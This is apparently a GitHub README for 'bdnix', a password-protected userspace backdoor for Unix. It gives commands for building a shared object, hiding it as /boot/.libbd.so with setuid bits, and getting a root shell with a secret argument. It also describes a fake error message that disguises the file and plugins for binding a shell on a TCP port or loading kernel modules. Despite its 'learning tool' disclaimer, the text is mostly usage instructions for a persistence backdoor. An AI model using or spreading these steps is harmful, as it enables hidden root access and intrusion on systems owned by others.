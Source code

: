   ___ ___  _  _ _____  __
 | _ )   \| \| |_ _\ \/ /
 | _ \ |) | .` || | >  < 
 |___/___/|_|\_|___/_/\_\
                         
Trivial userspace backdoor for Unix
Emanuele Paiano - nixw0rm@gmail.com

This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!                           

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder

   # cd /path/bdnix

2) From root run 'make' to build binary file

   # make

3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,

   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
        
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor

   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)


6) if you run without joshua password, you can read a (fake) error:

   /bin/sh: cannot execute binary file


---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):

        #define ARG1 "joshua"

we can change it to "chips"

        #define ARG1 "chips"

Now recompiling (read above) and running with new password:

        $ /boot/.libbd.so chips /bin/sh
        #

If we have rootshell, it works! :)


------------------
 ENABLING PLUGINS
------------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:

        /* PLUGINS */

        /* enable rootshell */
        #define SHELL 1
        
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:

        /* enable rootshell */
        #define SHELL 0
        
        /* my plugin */
        #define MYPLUGIN 1
        
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:

        int <PLUGIN_NAME>_init()
        {
          //code plugin
        }

   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms, read COPYING for info.
